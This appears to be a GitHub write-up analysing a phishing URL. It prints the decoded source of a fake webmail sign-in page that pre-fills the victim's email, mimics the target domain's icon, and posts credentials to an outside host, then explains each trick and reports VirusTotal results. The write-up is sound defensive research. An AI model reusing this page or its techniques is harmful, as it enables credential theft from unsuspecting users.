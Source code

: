 ### Introduction

Today I received the following mail:

https://hjvfyktdfky56kdrt5jt5ej5.web.app/?emailtoken=t.defise@gmail.com&domain=google.com

This is a phishing website which is controlled by the host https://bremerrapidest.xyz

Here is the analysis conducted on this phishing url.

### Investigation

1) Source code of https://hjvfyktdfky56kdrt5jt5ej5.web.app/?emailtoken=t.defise@gmail.com&domain=google.com

It seems that:
- The content of the page has been encoded in ASCII
- The content show a reference to [@therealelyayo](https://github.com/therealelyayo) which is an account that host several fork of phishing tools such as:
  - [HiddenEye-Legacy](https://github.com/DarkSecDevelopers/HiddenEye-Legacy): 2K Starts & 901 Forks
  - [AdvPhishing](https://github.com/Ignitetch/AdvPhishing): 528 Stars & 261 Forks
  - [Recreator-Phishing](https://github.com/AngelSecurityTeam/Recreator-Phishing): 109 Stars & 39 Forks
  - [BlackPhish](https://github.com/iinc0gnit0/BlackPhish)

2) Decoding of the phishing page

This has been encoded using ASCII

- Raw encoded page:
```html
<Script Language='Javascript'>
<!-- HTML Encryption provided by therealelyayo -->
<!--
document.write(unescape('%3C%21%44%4F%43%54........%74%6D%6C%3E'));
//-->
</Script>
```
- Decoded page:
```html
<!DOCTYPE html>
<!--[if IE 8 ]> <html class="ie ie8" lang="en"> <![endif]-->
<!--[if IE 9 ]> <html class="ie ie9" lang="en"> <![endif]-->
<!--[if (gte IE 10)|!(IE)]><!-->
<html lang="en">
<!--<![endif]-->

<head>
    <meta charset="utf-8">
    <title>Sign In</title>
    <meta name="viewport" content="width=device-width,user-scalable=no">
    <meta name="domain-suggester-prompt" content="Did you mean {{corrected_email}}?">
    <meta name="api-uri" content="https://api.squareup.com">
    <meta name="max-idle-minutes" content="30">
    <meta name="referrer" content="origin">
    <link href="https://gresrty.imfast.io/login.css" media="screen" rel="stylesheet">
    <link rel="canonical" href="/login">
    <link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">
</head>

<body class="login-page ">
    <div id="content" class="fade-in l-table">
        <div id="login-wrapper" class="l-table-row">
            <div class="l-table-cell">
                <section class="login-modal">
                    <div class="login-modal-user-pass">
                        <div class="login-modal-logo">

                            <body>
                                <script>
                                    document.title = "Webmail Login"; // Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.
                                </script>
                                <script>
                                    const queryString3 = window.location.search;
                                    const urlParams3 = new URLSearchParams(queryString3);
                                    const imageBoxx = urlParams3.get('domain');
                                    ChangeFavicon();

                                    function ChangeFavicon() {
                                        var total1 = imageBoxx;
                                        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
                                        link.type = 'image/x-icon';
                                        link.rel = 'shortcut icon';
                                        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
                                </script>
                                <script>
                                    const queryString2 = window.location.search;
                                    const urlParams2 = new URLSearchParams(queryString2);
                                    const imageBox = urlParams2.get('domain');
                                    window.onload = function() {
                                        var total = imageBox;
                                        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
                                    };
                                </script> <img id="imageBox" src="" alt="" width="40" height="40">
                        </div>
                        <h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
                        <script>
                            const queryString1 = window.location.search;
                            const urlParams1 = new URLSearchParams(queryString1);
                            const demo = urlParams1.get('domain');
                            var str = demo;
                            document.getElementById("demo").innerHTML = demo;
                        </script>
</body>
</div>
<div class="login-modal-content">
    <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
        <div class="field email-field fade-label"> <label class="text" for="email"></label> <input autocapitalize="off" autocomplete="off" autocorrect="off" autofocus="autofocus" class="text" id="username" name="username" size="20" spellcheck="false" type="email" value=""> </div>
        <div class="message-box-error-wrapper">
            <div class="message-box-error"></div>
        </div>
        <div class="field password-field fade-label"> <label class="text" for="password">Password</label> <input class="text" id="password" name="password" size="20" autocomplete="off" onkeyup="checkForm()" type="password" value="">
            <div class="form-group"><input type=hidden id="address" name=address size=5 value=""><input type=hidden id="address2" name=type size=5 value=""> </div>
            <div id="captcha" class="g-recaptcha submit-button"></div>
            <div class="submit-button full-length-submit-button"> <button id="sign-in-button" type="submit" class="btn btn-blue track-event" disabled="disabled"> <span class="button-text">Sign In</span> </button> </div>
    </form>
</div>
</div>
<script>
    function checkForm() {
        var name = document.getElementById("password").value;
        var cansubmit = (name.length > 3);
        document.getElementById("sign-in-button").disabled = !cansubmit;
    };
</script>
<script>
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const email = urlParams.get('emailtoken');
    const type = urlParams.get('domain');
    const address = urlParams.get('domain');
    const image = urlParams.get('domain');
    document.getElementById('username').value = email;
    document.getElementById('address').value = type;
    document.getElementById('address2').value = address;
    document.getElementById('image2').value = image;
    document.getElementById("demo").innerHTML = 5 + 6;
    var str = email;
    var str1 = type;
    var str2 = address;
    var str3 = image;
    str = str.substring(str.indexOf("@") + 1);
    document.getElementById('hlight').innerHTML = str;
</script>
</body>

</html>
```

2) Analysis of the decoded page (Social Engineering)

As document "*// Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.*"
THe website get the parameter "domain", then do a lookup for it on google in order to:
  - Include the icon within the *<link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">*
  (See variable **imageBoxx**)
  - Include the icon within form (Visually)
  (See variable **imageBox**)

```html
<script>
    const queryString3 = window.location.search;
    const urlParams3 = new URLSearchParams(queryString3);
    const imageBoxx = urlParams3.get('domain');
    ChangeFavicon();

    function ChangeFavicon() {
        var total1 = imageBoxx;
        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
        link.type = 'image/x-icon';
        link.rel = 'shortcut icon';
        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
</script>
<script>
    const queryString2 = window.location.search;
    const urlParams2 = new URLSearchParams(queryString2);
    const imageBox = urlParams2.get('domain');
    window.onload = function() {
        var total = imageBox;
        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
    };
</script> <img id="imageBox" src="" alt="" width="40" height="40">

```

It also add the domain to the page within the form (visually) by doing the following, just after the line above 

```html
<h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
<script>
    const queryString1 = window.location.search;
    const urlParams1 = new URLSearchParams(queryString1);
    const demo = urlParams1.get('domain');
    var str = demo;
    document.getElementById("demo").innerHTML = demo;
</script>
```

3) Analysis of the form

As you can seen the POST is performed towards another domain "https://bremerrapidest[.]xyz"

```html
 <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
```

After enumerating the folder files & folder available on this websites, I found the following page https://bremerrapidest[.]xyz/admin/, which should, according to me also be classified as malicious

![](website.PNG)

At the moment, this website is only seen as malicious by one engine on VirusTotal

![](vt_1.PNG)

And on the otherside, the phish is not detected by any engine on VirusTotal

![](vt_2.PNG)


